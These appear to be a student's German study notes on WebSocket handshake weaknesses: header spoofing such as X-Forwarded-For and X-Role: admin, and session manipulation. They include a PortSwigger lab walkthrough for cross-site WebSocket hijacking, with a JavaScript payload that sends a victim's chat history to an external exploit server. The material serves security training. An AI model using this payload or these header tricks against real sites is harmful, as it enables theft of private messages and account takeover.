

repository: IamNico42/portfolio · page: studium/Cyber-Security Praxissemester/Portswigger-Academy/WebSockets vulnerabilities/2. Manipulating Handshake-Websocket/index.html · generator: mkdocs

---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - PSS-Portswigger-Academy
tags:
  - Course/PSS
---
## Manipulation von WebSocket Traffic (mit Burp Suite)

## Allgemein

Handshakes bestehen zwar aus standardisierten Protokollen, aber weil oft eigene Logik für zB App Anwendungen angefügt werden können dadurch diverse Schwachstellen entstehen.

## Typische Schwachstellen beim Handshake

1. **Blindes Vertrauen in HTTP-Header**
    - Beispiel: Server verlässt sich auf `X-Forwarded-For`, um die Client-IP zu bestimmen.
    - Angreifer kann im Handshake einfach `X-Forwarded-For: 127.0.0.1` setzen → Server denkt, die Anfrage kommt von `localhost`.
    - → Zugriff auf interne Admin-Funktionen.
2. **Fehler bei Session Handling**
    - Der Server koppelt die **Session** für den WebSocket an die Cookies/Token aus dem Handshake.
    - Wenn du im Burp den Cookie manipulierst, kannst du evtl. in eine fremde Session springen.
    - Oder: Session wird nicht erneuert, obwohl Tokens längst abgelaufen sein müssten.
3. **Benutzerdefinierte Header**
    - Manche Anwendungen fügen zusätzliche Header ins Handshake ein, z. B.:
        `X-Auth-Token: abc123 X-Role: user`
    - Wenn du die manipulierst (`X-Role: admin`), und der Server vertraut darauf → 💥 Privilege Escalation.

## Lab: Cross-site WebSocket hijacking

This online shop has a live chat feature implemented using WebSockets.
To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this gain access to their account.


1. Schauen wo Websocket verbindungen aufgebaut werden -> Live Chat
	- Abchecken wie der Live-Chat kommuniziert -> In Burp sehen wir in der WebSocket Historie, dass der alte Chat gespeichert wird über die Session und mit dem Befehl "READY" wird dieser geladen
2. Handshake prüfen (GET /chat) -> Hat kein CSRF Token
3. Exploit vorbereiten und auf externen Server laden und an Victim schicken

```js
<script>
    var ws = new WebSocket
    ('wss://0adb005c03827d38813f897b001100aa.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch
        ('https://exploit-0a9000ca03697d8a810088d101db00a1.exploit-server.net/exploit message='
        + btoa(event.data));
    };
</script>
```

4. Victim hat Session laufen, drückt auf den Link und die gesamte Chat-Historie wird gefetched und an den externen Server geschickt
5. Passwort im Chat -> Leak
